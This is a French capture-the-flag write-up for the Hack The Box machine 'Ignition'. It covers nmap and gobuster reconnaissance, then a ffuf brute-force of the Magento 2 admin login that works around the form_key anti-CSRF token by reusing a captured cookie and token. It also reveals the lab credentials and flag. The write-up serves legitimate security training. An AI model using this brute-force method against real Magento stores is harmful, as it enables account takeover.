



> Plateforme : **Hack The Box** — Starting Point (Tier 2)

## Informations

- **Catégorie :** Web (Magento)
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Service :** `80/tcp` (nginx 1.14.2 — **Magento 2**)
- **Flag :** `797d6c988d9dc5865e010b9410f247e0`

---

## 1. Reconnaissance

```bash
nmap -p- -sC -sV -T4 10.129.1.27
```

```text
80/tcp open  http  nginx 1.14.2
|_http-title: Did not follow redirect to http://ignition.htb/
```



Un seul port. nmap signale une **redirection vers `http://ignition.htb/`** : le serveur attend un *vhost*. On l'ajoute dans `/etc/hosts` :

```text
10.129.1.27  ignition.htb
```

La page d'accueil est alors une boutique **Magento 2** (CMS e-commerce).

---

## 2. Découverte du panneau d'administration

```bash
gobuster dir -u http://ignition.htb -w /usr/share/wordlists/dirb/common.txt
```

```text
/admin                (Status: 200)
```

`/admin` sert le **formulaire de connexion Magento**. Le champ caché `form_key` attire l'œil :

```html
<input name="form_key" type="hidden" value="gMVNWVRBn7oCXjJh">
<input name="login[username]">
<input name="login[password]">
```

Pas de version exposée, pas de CVE directe : le seul vecteur est le **mot de passe faible** du compte `admin`.



---

## 3. Brute-force du login — le piège du `form_key`

Magento protège le login par un jeton anti-CSRF `form_key` **lié au cookie de session**. Un ffuf « brut » échoue : chaque POST a besoin d'un `form_key` valide. L'astuce : **un `form_key` reste valable toute la session**, donc on capture une paire `cookie + form_key` et on fuzze le mot de passe en la réutilisant.

```bash
H=ignition.htb
curl -s -c cj.txt http://$H/admin/ -o login.html
FK=$(grep -oP 'name="form_key"[^>]*value="\K[^"]+' login.html)
COOKIE=$(grep -i 'admin' cj.txt | awk '{print "admin="$7}')
```

La **policy Magento** (≥7 caractères, lettres + chiffres) sert à filtrer la wordlist pour ne pas gaspiller d'essais :

```bash
grep -E '^.{7,}$' /usr/share/wordlists/rockyou.txt \
  | grep -E '[0-9]' | grep -E '[a-zA-Z]' > wl.txt
```

```bash
ffuf -w wl.txt -u http://$H/admin/ -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -b "$COOKIE" \
  -d "form_key=$FK&login[username]=admin&login[password]=FUZZ" \
  -fs 7325 -t 5 -p 0.2
```

- Échec = page de login renvoyée (200, taille fixe `7325`) → filtré par `-fs 7325`.
- Succès = **redirection** (`302`) vers le dashboard.

```text
qwerty123   [Status: 302, Size: 0, Words: 1, Lines: 1]
...         [Status: 302, Size: 0, ...]   <-- toutes identiques
```



> **Piège observé :** après le premier hit, **toute** la suite passe en `302 size 0`. Ce ne sont pas des hits multiples : le cookie étant **partagé**, dès qu'un mot de passe correct ouvre la session, ce cookie devient une session admin authentifiée et chaque POST suivant redirige (« déjà connecté »). Le **premier** `302` est le seul réel ; les autres sont son sillage. Pour éviter l'ambiguïté : un cookie + `form_key` **neufs par essai** (on ne garde alors qu'une seule ligne).

Mot de passe trouvé : `admin` / `qwerty123`.

---

## 4. Accès admin → flag

On se connecte sur `http://ignition.htb/admin/` avec `admin` / `qwerty123`. Le **dashboard Magento** s'ouvre, et le flag y est accessible.

```text
797d6c988d9dc5865e010b9410f247e0
```

**Flag :** `797d6c988d9dc5865e010b9410f247e0`

---

## Récapitulatif

1. **nmap** → port 80 seul, redirection vers le vhost `ignition.htb` (à mettre dans `/etc/hosts`).
2. Site **Magento 2** ; `gobuster` → `/admin` (panneau de connexion).
3. **Brute-force** du compte `admin` avec ffuf, en réutilisant une paire `cookie + form_key` et une wordlist conforme à la policy → `qwerty123`.
4. Connexion au dashboard → **flag**.

---

***— 3ch0***
